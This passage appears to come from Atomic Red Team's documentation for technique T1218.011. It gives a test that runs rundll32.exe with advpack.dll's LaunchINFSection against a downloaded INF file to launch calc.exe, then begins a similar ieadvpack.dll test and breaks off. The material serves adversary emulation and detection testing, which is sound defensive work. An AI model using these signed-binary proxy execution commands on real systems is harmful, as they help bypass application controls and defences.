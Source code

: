 Test execution of a command using rundll32.exe with advpack.dll.
Reference: https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSLibraries/Advpack.yml
Upon execution calc.exe will be launched

**Supported Platforms:** Windows

**auto_generated_guid:** d91cae26-7fc1-457b-a854-34c8aad48c89

#### Inputs:

| Name           | Description                | Type   | Default Value                                               |
| -------------- | -------------------------- | ------ | ----------------------------------------------------------- |
| inf_to_execute | Local location of inf file | string | PathToAtomicsFolder&#92;T1218.011&#92;src&#92;T1218.011.inf |

#### Attack Commands: Run with `command_prompt`!

```cmd
rundll32.exe advpack.dll,LaunchINFSection "#{inf_to_execute}",DefaultInstall_SingleUser,1,
```

#### Dependencies: Run with `powershell`!

##### Description: Inf file must exist on disk at specified location ("#{inf_to_execute}")

##### Check Prereq Commands:

```powershell
if (Test-Path "#{inf_to_execute}") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory (split-path "#{inf_to_execute}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.011/src/T1218.011.inf" -OutFile "#{inf_to_execute}"
```

<br/>
<br/>

## Atomic Test #5 - Rundll32 ieadvpack.dll Execution

Test execution of a command using rundll32.exe with ieadvpack.dll.
Upon execution calc.exe will be launched

Reference: https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSLibraries/Ieadvpack.yml

**Supported Platforms:** Windows

**auto_generated_guid:** 5e46a58e-cbf6-45ef-a289-ed7754603df9

#### Inputs:

| Name           | Description                | Type   | Default Value                                               |
| -------------- | -------------------------- | ------ | ----------------------------------------------------------- |
| inf_to_execute | Local location of inf file | string | PathToAtomicsFolder&#92;T1218.011&#92;src&#92;T1218.011.inf |
